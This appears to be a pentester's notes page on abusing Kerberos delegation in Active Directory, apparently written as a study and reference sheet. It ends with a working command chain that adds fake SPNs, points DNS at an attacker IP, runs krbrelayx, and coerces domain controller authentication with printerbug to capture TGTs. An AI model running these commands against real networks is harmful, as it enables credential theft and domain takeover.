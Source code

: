 # [Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations)

## Questions to ask yourself
  *  Any user/computer objects with unreadable [delegation attributes](https://github.com/SpacemanHenry/hacknotes/blob/main/Information%20Gathering/Service%20Enumeration/LDAP.md#delegation-permissions)?
  *  Any objects with delegation privileges [kerberoastable](https://github.com/SpacemanHenry/hacknotes/blob/main/Exploitation/Authentication/Kerberos/Kerberoast.md)?
  *  What services have service principal names configured?
      *  What users have high privileges over those services?

## Things to remember
  *  Unconstrained delegation requires non-default configuration for user objects

## Useful tools
  *  [`krbrelayx`](https://github.com/dirkjanm/krbrelayx) toolkit for abusing unconstrained delegation
  *  [`impacket-getST`](https://github.com/fortra/impacket/blob/master/examples/getST.py) for impersonating users via constrained delegation

## [Unconstrained delegation](https://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html)
  *  KDC provides KUD service accounts a TGT of any user that auths via SPN
      *  Any method of coerced authentication can often be used... get creative!
      *  Add FQDN of domain controller to `hosts` file to avoid DNS errors
  *  Abusing user accounts with KUD relies on [`Write servicePrincipalName`](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/register-a-service-principal-name-for-kerberos-connections?view=sql-server-ver16)
      *  Create SPN for service account using fake hostname
      *  Create DNS entry matching fake hostname pointing to attacker IP
      *  Coerce authentication to the fake hostname SPNs and capture TGT
  *  Computer accounts with KUD are easily abused by extracting delegated TGTs from memory
      *  Coerce authentication to default SPNs such as HOST/CIFS

// Unconstrained delegation abuse via service (user) account 
```
git clone https://github.com/dirkjanm/krbrelayx && cd krbrelayx
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s host/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 addspn.py -u corp.local\\sqlsvc -p 'password' -s cifs/FAKE.CORP.LOCAL ldap://DC.CORP.LOCAL
python3 dnstool.py -u corp.local\\sqlsvc -p 'password' -r FAKE.CORP.LOCAL -a add -d [ATTACKER IP] DC.CORP.LOCAL
python3 krbrelayx.py --krbsalt CORP.LOCALsqlsvc --krbpass 'password'
python3 printerbug.py corp.local/sqlsvc:'password'@DC.CORP.LOCAL FAKE.CORP.LOCAL
```
